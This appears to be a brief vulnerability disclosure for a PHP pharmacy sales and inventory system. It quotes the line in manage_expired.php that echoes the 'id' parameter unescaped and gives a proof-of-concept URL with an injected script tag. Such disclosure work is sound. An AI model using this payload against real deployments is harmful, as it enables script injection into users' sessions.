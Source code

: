 # Pharmacy Sales and Inventory System using PHP/MySQL with Source Code - XSS

environment

[https://www.sourcecodester.com/php/14500/pharmacy-sales-and-inventory-system-using-phpmysql-source-code.html](https://www.sourcecodester.com/php/14500/pharmacy-sales-and-inventory-system-using-phpmysql-source-code.html "https://www.sourcecodester.com/php/14500/pharmacy-sales-and-inventory-system-using-phpmysql-source-code.html")

# XSS

In pharmacy/manage\_expired.php, it was found that `<?php echo isset($_GET['id']) ? $_GET['id'] : '' ?>` directly echoes the value of '**id**'.

![](image/image_p1tY6o-991.png)

Construct the XSS payload
`http://127.0.0.1/manage_expired.php?id=11111"><script>console.log(1)</script><`
![](image/image_V-VczMpOBA.png)

